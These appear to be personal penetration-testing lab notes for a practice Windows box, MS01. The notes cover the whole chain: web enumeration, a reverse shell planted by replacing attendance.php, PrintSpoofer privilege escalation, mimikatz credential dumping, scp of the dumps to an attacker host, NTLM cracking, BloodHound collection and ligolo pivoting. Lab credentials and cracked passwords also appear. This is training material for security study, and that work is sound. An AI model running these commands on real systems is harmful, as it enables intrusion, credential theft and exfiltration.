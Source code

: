 # MS01
- IP 192.168.198.141
- Eric.Wallows : EricLikesRunning800
- Feroxbuster for a SQL DB
 ```bash
http://192.168.198.141:81/DB/apsystem.sql

Neovic', 'Devierte'
1 : nurhodelta : $2y$10$fCOiMky4n5hCJx3cpsG20Od4wHtlkCLKmO6VLobJNRIg9ooHTkgjK 
```
- Logged in via SSH on port 22
- Enumerated with Winpeas
- File permissions on the Webserver directory : 
	- c:\wamp64(Authenticated Users [Allow: WriteData/CreateFiles])
- This directory has the attendance.php file we saw in use on the port 81 site
- Downloaded a rev shell and replaced this file with our own ,
	- `curl.exe http://192.168.45.190/attendance.php -o attendance.php`
- 
- Navigated to attendance site : http://192.168.198.141:81/, signed in
- Revshell popped
- new user ms01\mary.williams
* new privilege is SeCreateGlobalPrivilege  
* https://github.com/itm4n/PrintSpoofer
	* syntax : .\printspoof.exe -i -c cmd
* Voila, we are now system!

## Export creds

```powershell
log c:\wamp\mk\sam.log  # start logging
.\mimikatz.exe
privilege::debug 
token::elevate   # elevate to SYSTEM user privileges.
lsadump::sam 
sekurlsa::logonpasswords  attempts to extract plaintext passwords and password hashes from all available sources.
log # stop loggin
scp *.log kali@192.168.45.190:~/Documents/Boxes/


# Cracking NTLM with john and hashcat
john --wordlist=$rockyou --rules=best64 ntlm.hash --format=NT  
hashcat -m 1000 ntlm.hash $rockyou -r /usr/share/hashcat/rules/best64.rule --force

john ntlm.hash --show --format=NT


support:Freedom1
Administrator:December31

```

## Enumerate with Bloodhound/sharphound
```bash
cp /usr/share/sharphound/SharpHound.ps1 .


curl.exe http://192.168.45.190/SharpHound.ps1 -o sharphound.ps1
iwr -uri http://192.168.45.190/SharpHound.ps1 -Outfile SharpHound.ps1

powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All # must be run as domain user, not Local Admin
## once finished, locate .zip file, transfer back to kali

scp *.zip kali@192.168.45.190:~/Documents/Boxes/

#update-bloodhound-ce
https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart

wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
./bloodhound-cli install
# “Docker is installed on this system, but the daemon is not running” In case you get the error message, you need to uninstall and re-install Docker.
# Simply launch Docker Desktop and proceed.
sudo systemctl start docker    
sudo ./bloodhound-cli install


[+] BloodHound is ready to go!
[+] You can log in as `admin` with this password: ucMBeGC75nRmTE7b2sMK4LpGHBw7jmWG
[+] You can get your admin password by running: bloodhound-cli config get default_password
[+] You can access the BloodHound UI at: http://127.0.0.1:8080/ui/login
 
Bloodhound12!@


```

## Pivot
``` bash
curl.exe http://192.168.45.210/ligolo_agent.exe -o agent.exe
./agent.exe -connect 192.168.45.210:11601 -ignore-cert

session # KALI
autoroute
select subnet/route you want access to
create a new interface, start tunnel
```
